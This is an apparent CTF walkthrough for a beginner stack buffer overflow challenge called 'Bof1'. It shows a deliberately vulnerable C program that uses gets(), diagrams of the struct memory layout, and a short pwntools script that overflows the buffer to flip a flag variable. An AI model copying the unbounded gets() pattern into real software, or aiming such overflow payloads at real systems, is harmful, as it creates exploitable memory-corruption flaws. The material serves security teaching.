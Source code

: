 # Bof1

Bof1 is the first buffer overflow challenge of the CTF. In this case, our buffer overflow is a stack-based buffer overflow which means we'll end up overwriting values on the stack to get the flag. The full program is posted below for convenience.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void handler(int num){
    printf("Bye!\n");
    exit(-1);
}

int main(int argc, char **argv){
    signal(SIGALRM, handler);
    alarm(5);

    struct {
        char buffer[64];
        int modified;
    } s;

    s.modified = 0;
    gets(s.buffer);

    if(s.modified){
        system("cat ./flag.txt");
        exit(0);
    } else {
        printf("Try again!\n");
        exit(1);
    }
}
```

Taking a cursory look at the program we notice a few things:

1. The program will exit after 5 seconds of being alive:

```C
void handler(int num){
    printf("Bye!\n");
    exit(-1);
}
...
signal(SIGALRM, handler);
alarm(5);
```

2. There is a struct that contains a character array and an integer. The character array has enough space on the stack for 64 characters. One thing to note here is that because these variables are in a struct, they are contiguous (right next to eachother/touching) in memory.

```C
struct {
    char buffer[64];
    int modified;
} s;
```

3. There is a call to `gets`. The `gets` function is inherently dangerous. If you run the command `man gets` to see get's manpage, you will see the security notice at the bottom:

> SECURITY CONSIDERATIONS
>     **The gets() function cannot be used securely**.  Because of its lack of
>     bounds checking, and the inability for the calling program to reliably
>     determine the length of the next incoming line, **the use of this function
>     enables malicious users to arbitrarily change a running program's func-
>     tionality through a buffer overflow attack**.  It is strongly suggested
>     that the fgets() function be used in all cases.  (See the FSA.)

```C
gets(s.buffer);
```

This means that we can send an unlimited amount of data to the program which will be written into the buffer without regard for any safety considerations.

4. In order to win, the integer in the struct, modified, must not be equal to zero.

```
if(s.modified){
    system("cat ./flag.txt");
    exit(0);
} else {
    printf("Try again!\n");
    exit(1);
}
```

Now that we have completely analyzed the program, we can plan our attack.

Our struct looks like this in memory:

```
+============================+
|         struct s           |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| 0 | 1 | 2 | ... | 63 |  0  |
+===+===+===+=====+====+=====+
```

In this case, the numbers on the bottom represent the index for each element. From here on out, the numbers on the bottom will represent values in memory.

If we were to write “AB” to the buffer, it would look like this:

```
+============================+
|         struct s           |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | B | 0 | ... |  0 |  0  |
+===+===+===+=====+====+=====+
```

What if we wrote 64 A's?

```
+============================+
|         struct s           |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | A | A | ... |  A |  0  |
+===+===+===+=====+====+=====+
```

This isn’t devastating as we didn’t corrupt any memory, but the buffer no longer contains a valid C string. Recall that C strings must be null-terminated. If mod was not set to 0, a call to printf would have trouble knowing where to stop and it would continue printing until it hit a NULL character.

What would happen if we wrote 65 A's?

```
+============================+
|         struct s           |
+======================+=====+
|         buffer       | mod |
+---+---+---+-----+----+-----+
| A | A | A | ... |  A |  A  |
+===+===+===+=====+====+=====+
```

Our struct's integer, modified, has been modified! We successfully exploited the buffer overflow and overwrote the integer with our own value, thus printing the flag.

A simple example of this exploit in pwntools would look like:

```Python
#!/usr/bin/env python2

from pwn import *

context.update(arch='amd64', os='linux')

r = remote('bof1.ctf.cuctf.io', 9000)
payload = "A" * 0x100
r.sendline(payload)
r.interactive()
```

